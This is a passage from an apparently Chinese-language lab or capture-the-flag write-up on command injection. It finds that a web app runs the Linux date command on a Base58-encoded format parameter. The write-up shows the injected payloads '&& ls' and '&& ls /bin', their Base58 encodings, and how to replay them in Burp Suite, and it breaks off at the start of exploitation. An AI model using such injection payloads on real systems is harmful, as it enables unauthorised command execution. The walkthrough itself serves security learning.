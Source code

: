 看到明文这样的格式，想到了Linux的date命令

```
date
```

date后添加明文内容

```
date '+Today is %A, %B %d, %Y %H:%M:%S.'
```

![image-20211103152932781](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211103152932781.png)

**猜测当访问Web程序URL时，服务端使用的是这条操作系统指令，那么是否可以用符号连接执行命令注入呢？**

```
date '+Today is %A, %B %d, %Y %H:%M:%S.' || ls  #不可行
```

```
date '+Today is %A, %B %d, %Y %H:%M:%S.' && ls #可行
```

![image-20211103153232194](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211103153232194.png)

结合之前的URL，服务端能执行的内容必须是Base58编码之后的格式

故使用CyberChef将&&ls转为Base58编码形式

![image-20211103153344923](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211103153344923.png)

```
得到：&&ls   --Base58编码-->   yZSGA
```

BurpSuite:

```
--Repeater内将format参数值替换为yZSGA-->Send重放
```

![image-20211103153429917](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211103153429917.png)

成功接受到服务端响应-->返回当前目录下的文件信息-->**确认存在命令注入漏洞**

---

## 三、漏洞利用

### 1.利用思路

如何利用命令注入漏洞？-->**尝试查看用户可执行文件目录（/bin）**-->看是否有可利用点

CyberChef:

```
&&ls /bin --To Base58-->VAZYW9RHPu6D（下面不再为转码贴附图片**-_-**）
```
